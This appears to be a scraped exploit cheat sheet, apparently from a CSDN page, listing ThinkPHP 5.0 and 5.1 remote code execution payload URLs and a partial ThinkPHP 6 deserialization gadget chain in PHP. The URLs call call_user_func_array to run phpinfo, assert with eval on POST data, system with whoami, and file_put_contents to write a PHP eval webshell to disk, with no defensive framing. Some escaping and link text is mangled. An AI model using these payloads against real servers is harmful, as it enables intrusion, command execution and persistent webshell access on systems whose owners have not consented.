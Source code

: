 [http://www.tp5\_0.com/index.php?s=index/](http://t.csdn.cn/index.php?s=index/ "http://www.tp5_0.com/index.php?s=index/")\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=phpinfo&vars1\=1

[http://www.tp5\_0.com/index.php?s=index/](http://t.csdn.cn/index.php?s=index/ "http://www.tp5_0.com/index.php?s=index/")\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=assert&vars1\=eval($\_POST\[1\]);&XDEBUG\_SESSION\_START=PHPSTORM

rce

[http://www.tp5\_0.com/index.php?s=index/](http://t.csdn.cn/index.php?s=index/ "http://www.tp5_0.com/index.php?s=index/")\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=assert&vars1\=eval($\_POST\[1\]);

[http://www.tp5\_0.com/index.php?s=index/](http://t.csdn.cn/index.php?s=index/ "http://www.tp5_0.com/index.php?s=index/")\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=file\_put\_contents&vars1\=./2021\_07\_27.php&vars1\=%3C?php%20eval($\_GET\[1\]);?%3E&XDEBUG\_SESSION\_START=PHPSTORM

5.1

?s=index/\\think\\Request/input&filter\[\]=system&data=whoami

## TP6

**反序列化**

<?php namespace think\\cache{ abstract class Driver{ protected $writeTimes = 0; protected $options = \['expire'=>1, 'hash\_type'=>'md5', 'path'=>'./','cache\_subdir'=>false, 'prefix'=>false, 'data\_compress'=>false\];

} }

namespace think\\cache\\driver{ use think\\cache\\Driver; class File extends Driver {

public function set($name, $value, $expire = null): bool { //$name 完全可控 $value 部分可控 $this->writeTimes++;

if (is\_null($expire)) { $expire = $this->options\['expire'\]; }

$expire = $this->getExpireTime($expire); //使用了$this->getCacheKey($name) $filename = $this->getCacheKey($name);

$dir = dirname($filename);

if (!is\_dir($dir)) { try { mkdir($dir, 0755, true); } catch (\\Exception $e) { // 创建失败 } } //$value部分可控 $data = $this->serialize($value);

if ($this->options\['data\_compress'\] && function\_exists('gzcompress')) { //数据压缩 $data = gzcompress($data, 3); }

$data = "<?php\\n//" . sprintf('%012d', $expire) . "\\n exit();?>\\n" . $data;

$result = file\_put\_contents($filename, $data);

if ($result) { clearstatcache(); return true; }

return false; }

} }
